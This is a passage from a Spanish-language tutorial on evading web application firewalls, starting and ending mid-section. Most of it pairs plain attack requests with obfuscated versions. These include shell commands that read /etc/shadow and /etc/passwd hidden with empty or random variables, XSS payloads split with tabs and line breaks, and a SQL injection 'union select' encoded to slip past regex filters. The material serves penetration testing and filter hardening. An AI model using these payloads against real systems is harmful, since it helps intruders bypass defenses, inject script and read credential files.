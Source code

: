 > /bin/cat /etc/shadow

**Ofuscar carga útil:**

> $u/bin$u/cat$u $u/etc$u/shadow$u

Ofuscación de tercer nivel: caracteres aleatorios

**Solicitud básica:**

> /bin/cat /etc/passwd

**Ofuscar carga útil:**

> $aaaaaa/bin$bbbbbb/cat$ccccccc $dddddd/etc$eeeeeee/passwd$fffffff

### 13. Técnica de tabulaciones y avances de línea

Las pestañas a menudo ayudan a evadir los firewalls, especialmente los basados ​​en expresiones regulares. Las pestañas pueden ayudar a romper la expresión regular WAF cuando la expresión regular espera espacios en blanco y no pestañas.

**Solicitud básica:**

```bash
<IMG SRC="javascript:confirm();">
```

**Técnica omitida:**

```bash
<IMG SRC=" javascript:confirm();">
```

**Variante:**

```bash
<IMG SRC=" jav ascri pt:confirm ();">
```

**Solicitud básica:**

> http://test.com/test?id=1 union select 1,2,3

**Técnica omitida** :

> http://test.com/test?id=1%09union%23%0A%0Dselect%2D%2D%0A%0D1,2,3

**Solicitud básica:**

```bash
<iframe src=javascript:confirm()></iframe>
```

**Ofuscar carga útil:**

```bash
<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:c&Tab;o&Tab;n&Tab;f&Tab;i&Tab;r&Tab;m&Tab;%28&Tab;%29></iframe>
```

### 14. Técnica para romper fichas
